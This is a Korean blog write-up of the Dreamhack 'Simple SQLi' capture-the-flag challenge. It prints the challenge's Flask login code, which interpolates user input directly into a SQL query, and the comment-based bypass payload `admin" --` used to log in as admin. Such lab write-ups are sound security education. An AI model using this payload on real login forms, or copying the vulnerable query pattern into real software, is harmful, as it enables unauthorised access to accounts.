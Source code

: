 ```yaml
---
title: "[CTF] 드림핵 Simple SQLi"
date: 2025-09-18 21:00:00 +0900
categories: [CTF, Web]
tags: [CTF, SQLi]
description: "드림핵 Simple SQLi"
author: "송지민"
toc: true
---
```


## 문제 개요 (간단히)
이번 문제는 로그인 기능이 있는 간단한 웹앱으로, 입력값을 그대로 SQL 쿼리에 삽입하는 구조였다. 딱 봐도 기본적인 SQL 인젝션(SQLi)이 가능해 보였다.

- `/login` : POST로 받은 `userid`, `userpassword`를 이용해 다음과 같은 쿼리를 수행한다.  
  ```sql
  select * from users where userid="{userid}" and userpassword="{userpassword}"
  ```
- 쿼리 결과에서 `userid == 'admin'`이면 FLAG를 반환한다.

아래는 문제에서 제공된 **원본 소스코드 전체**다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)
```

---

## 내가 실제로 푼 방법 (풀이 기록 — 블로그용 서술 방식)
소스코드를 확인하자마자 SQL 인젝션 포인트가 뻔히 보였다.

```sql
select * from users where userid="{userid}" and userpassword="{userpassword}"
```

조건에서 `userid == 'admin'`일 때 FLAG를 주기 때문에, admin 계정이 존재함을 알 수 있다. 그렇다면 `userid` 입력에 `"--`를 사용해 뒤를 주석 처리하면 쉽게 우회할 수 있다.

### 내가 사용한 입력값
- `userid`:  
  ```
  admin" --
  ```
- `userpassword`:  
  ```
  아무거나
  ```

### 최종 실행된 쿼리
```sql
select * from users where userid="admin" -- " and userpassword="아무거나"
```

이 구문은 뒤가 주석 처리되면서 단순히:
```sql
select * from users where userid="admin"
```
으로 축약된다.

결과적으로 admin 사용자의 데이터가 반환되고, FLAG를 획득할 수 있었다.

---

## 재현 흐름 (짧게)
1. 공격자: `/login`에서 userid에 `admin" --`, pw에 아무 값 입력  
2. 서버: 최종 쿼리는 `select * from users where userid="admin"`  
3. 쿼리 결과 admin 계정 반환  
4. 조건문 `if userid == 'admin'` → FLAG 출력  
5. 공격자: FLAG 확인 성공

---

## 왜 이게 가능했나 (한 줄)
입력값을 이스케이프 없이 그대로 SQL 문자열에 삽입하여 기본적인 SQLi가 발생했기 때문이다.

---

## 마무리(짧게)
simple_sqli 문제는 정말 기본적인 SQL 인젝션 예제였다. 가장 전형적인 `"--` 주석 처리 기법으로 admin 계정에 접근해 FLAG를 획득했다.

